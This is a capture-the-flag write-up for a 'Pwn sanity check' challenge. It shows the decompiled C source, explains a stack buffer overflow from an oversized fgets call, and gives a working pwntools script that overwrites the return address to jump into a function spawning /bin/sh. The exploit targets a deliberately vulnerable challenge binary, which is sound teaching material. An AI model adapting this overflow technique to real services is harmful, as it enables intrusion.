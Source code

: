 # Pwn sanity check
### submmited by revolution

```
This should take about 1337 seconds to solve.
nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```

```c
int vuln()
{
  char s[60]; // [rsp+0h] [rbp-40h] BYREF
  int v2; // [rsp+3Ch] [rbp-4h]

  puts("tell me a joke");
  fgets(s, 256, stdin);
  if ( v2 != -559038242 )
    return puts("will this work?");
  puts("very good, here is a shell for you. ");
  return shell();
}

int shell()
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  return puts("If this is not good enough, you will just have to try harder :)");
}

int __fastcall win(int a1, int a2)
{
  int result; // eax

  result = puts("you made it to win land, no free handouts this time, try harder");
  if ( a1 == -559038737 )
  {
    result = puts("one down, one to go!");
    if ( a2 == 322420958 )
    {
      puts("2/2 bro good job");
      system("/bin/sh");
      exit(0);
    }
  }
  return result;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  alarm(0xAu);
  vuln();
  return 0;
}
```

This challenge was simply an overwrite of the return address of vuln via bufferoverflow resulting from the rediculios amount of charaters provided as the parameter for the fgets method, this dangerous amount (256) is not depended on the size of the buffer itself which is only 60 and as the decompiled code suggests its location on the stack is rbp - 0x40 (64 in decimal) so the payload is as follows: 

```python 
payload = b"A" * 64 + b"B" * 8 + new_return_addr
```

Where the A's repersenting the buffer, the B's representing the last rbp and well, the new_return_Addr kinda speeks for itself. figuring out where to redirect the code via the return address is the main issue, In order to solve this challenge one should learn to ignore all the "noise", for example the shell method which is just a troll, the unrealistic conditionals in the win function and the condition in the vuln functino which does nothing, triggering all of those will not help the challenge.

I chose to skip all the above and jump straight to the middle of the win function in the "puts("2/2 bro good job");" line, hence this exploit:

```python
from pwn import *

middle_win = p64(0x00000000004006DB)
rem = 1

if(rem):
    p = remote("dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io", 7480)
else:
    p = process("pwn_sanity_check")

print(p.recvuntil("tell me a joke").decode())
p.sendline(b"A"* 64 + b"B" * 8 + middle_win)

p.interactive()
```

and here are the results:

!["cool results"](img.png "results")

